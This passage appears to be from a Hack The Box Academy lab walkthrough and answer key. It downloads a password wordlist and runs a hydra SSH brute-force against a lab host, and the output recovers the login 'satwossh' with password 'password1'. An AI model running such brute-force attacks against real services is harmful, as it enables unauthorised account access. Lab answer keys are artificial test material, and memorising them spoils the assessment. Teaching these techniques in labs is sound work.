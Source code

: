 
Answer: `satwossh`

# Skills Assessment Part 2

## Question 1

### "What is the username of the ftp user you find via brute-forcing?"

After spawning the target, students will download the `2023-200_most_used_passwords.txt` wordlist:

Code: shell

```shell
wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/2023-200_most_used_passwords.txt
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-guzdqpf4yp]─[~]
└──╼ [★]$ wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/2023-200_most_used_passwords.txt
```

Subsequently, students will perform an SSH brute-force using the username `satwossh` and the wordlist with hydra to attain the password of the user:

Code: shell

```shell
hydra -l satwossh -P 2023-200_most_used_passwords.txt ssh://STMIP:STMPO
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-guzdqpf4yp]─[~]
└──╼ [★]$ hydra -l satwossh -P 2023-200_most_used_passwords.txt ssh://94.237.56.229:39400

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-30 06:33:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking ssh://94.237.56.229:39400/
[39400][ssh] host: 94.237.56.229   login: satwossh   password: password1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-30 06:34:26
```
